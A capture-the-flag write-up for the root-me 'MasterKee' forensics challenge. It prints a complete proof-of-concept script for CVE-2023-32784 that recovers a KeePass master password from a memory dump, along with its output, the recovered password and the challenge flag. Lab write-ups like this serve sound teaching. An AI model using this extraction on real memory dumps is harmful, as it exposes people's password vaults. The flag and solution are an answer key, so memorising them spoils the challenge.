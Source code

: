 ```yaml
---
title: Master kee root-me
time: 2025-03-16
categories: [ctf]
tags: [forensics]
---
```


# Cracking the MasterKee Challenge: Exploiting CVE-2023-32784

For this challenge, we are provided with two files:
- `MasterKee.DMP`
- `Masterkee.kdbx`

The goal is to extract the password from the `.DMP` file and use it to unlock the KeePass database (`Masterkee.kdbx`). After some research, I discovered that a specific version of KeePass is vulnerable to **CVE-2023-32784**, which allows extracting the master password from a memory dump.

---

## Step 1: Understanding the Vulnerability

CVE-2023-32784 is a vulnerability in KeePass that leaks portions of the master password in memory. By analyzing a memory dump (`.DMP`), we can recover parts of the password. The missing characters are represented as `●` in the output.

---

## Step 2: Using the Proof-of-Concept Script

I found a [PoC script on GitHub](https://github.com/) that exploits this vulnerability. Here's the script:

```python
import argparse
import logging
import itertools


class TaggedFormatter(logging.Formatter):

    TAGS = {
        'DEBUG': '\x1b[1;35m#\x1b[0m',
        'INFO': '\x1b[1;34m.\x1b[0m',
        'WARNING': '\x1b[1;33m-\x1b[0m',
        'ERROR': '\x1b[1;31m!\x1b[0m',
        'CRITICAL': '\x1b[1;31m!!\x1b[0m'
    }

    def __init__(self, format):
        logging.Formatter.__init__(self, format)

    def format(self, record):
        levelname = record.levelname

        if levelname in self.TAGS:
            record.levelname = self.TAGS[levelname]

        return logging.Formatter.format(self, record)


def setup_logging(debug = False):
    formatter = TaggedFormatter('%(asctime)s [%(levelname)s] [%(name)s] %(message)s')
    handler = logging.StreamHandler()
    root_logger = logging.getLogger()

    handler.setFormatter(formatter)
    root_logger.addHandler(handler)

    if debug:
        root_logger.setLevel(logging.DEBUG)
    else:
        root_logger.setLevel(logging.INFO)


def parse_args():
    parser = argparse.ArgumentParser(description='CVE-2023-32784 proof-of-concept')

    parser.add_argument('dump', type=str, help='The path of the memory dump to analyze')
    parser.add_argument('-d', '--debug', dest='debug', action='store_true', help='Enable debugging mode')

    return parser.parse_args()


def get_candidates(dump_file):
    data = dump_file.read()
    candidates = []
    str_len = 0
    i = 0

    while i < len(data)-1:
        if (data[i] == 0xCF) and (data[i + 1] == 0x25):
            str_len += 1
            i += 1
        elif str_len > 0:
            if (data[i] >= 0x20) and (data[i] <= 0x7E) and (data[i + 1] == 0x00):
                candidate = (str_len * b'\xCF\x25') + bytes([data[i], data[i + 1]])

                if not candidate in candidates:
                    candidates.append(candidate)
            
            str_len = 0
        
        i += 1
    
    return candidates


if __name__ == '__main__':
    args = parse_args()
    setup_logging(args.debug)
    logger = logging.getLogger('main')

    with open(args.dump, 'rb') as dump_file:
        logger.info(f'Opened {dump_file.name}')

        candidates = get_candidates(dump_file)
        candidates = [x.decode('utf-16-le') for x in candidates]
        groups = [[] for i in range(max([len(i) for i in candidates]))]

        for candidate in candidates:
            groups[len(candidate) - 1].append(candidate[-1])
        
        for i in range(len(groups)):
            if len(groups[i]) == 0:
                groups[i].append(b'\xCF\x25'.decode('utf-16-le'))
        
        for password in itertools.product(*groups):
            password = ''.join(password)
            print(f'Possible password: {password}')
```

---

## Step 3: Running the Script

I ran the script against the `MasterKee.DMP` file, and it produced the following output:


```
➜  forensics python3 exp.py -d MasterKee.DMP

2025-03-10 16:23:37,315 [.] [main] Opened MasterKee.DMP

Possible password: ●ere_Is_My_V3ry_S3cr3t_P4ssw0rd2024!
Possible password: ●3re_Is_My_V3ry_S3cr3t_P4ssw0rd2024!
Possible password: ●'re_Is_My_V3ry_S3cr3t_P4ssw0rd2024!
Possible password: ●Dre_Is_My_V3ry_S3cr3t_P4ssw0rd2024!
Possible password: ●\re_Is_My_V3ry_S3cr3t_P4ssw0rd2024!
Possible password: ●#re_Is_My_V3ry_S3cr3t_P4ssw0rd2024!
Possible password: ●yre_Is_My_V3ry_S3cr3t_P4ssw0rd2024!
Possible password: ●kre_Is_My_V3ry_S3cr3t_P4ssw0rd2024!
Possible password: ●9re_Is_My_V3ry_S3cr3t_P4ssw0rd2024!
Possible password: ●;re_Is_My_V3ry_S3cr3t_P4ssw0rd2024!
Possible password: ●Hre_Is_My_V3ry_S3cr3t_P4ssw0rd2024!
Possible password: ●Bre_Is_My_V3ry_S3cr3t_P4ssw0rd2024!
Possible password: ●qre_Is_My_V3ry_S3cr3t_P4ssw0rd2024!
Possible password: ●are_Is_My_V3ry_S3cr3t_P4ssw0rd2024!
```

---

## Step 4: Analyzing the Output

The script revealed that the first character of the password is missing (`●`). Based on the context, I guessed that the missing character is likely an **`H`**, making the password:


`Here_Is_My_V3ry_S3cr3t_P4ssw0rd2024!`

---

## Step 5: Unlocking the KeePass Database

I opened the `Masterkee.kdbx` file in KeePass and entered the password:

`Here_Is_My_V3ry_S3cr3t_P4ssw0rd2024!`

---

## Step 6: Success!

The database unlocked, and I found the flag:


`RM{Upd4T3_KeEPas5_t0_2.54}`

---

## Conclusion

This challenge was a great way to learn about memory forensics and real-world vulnerabilities like `CVE-2023-32784`. Always ensure your software is up-to-date to avoid such exploits!

---

**Flag:** `RM{Upd4T3_KeEPas5_t0_2.54}`

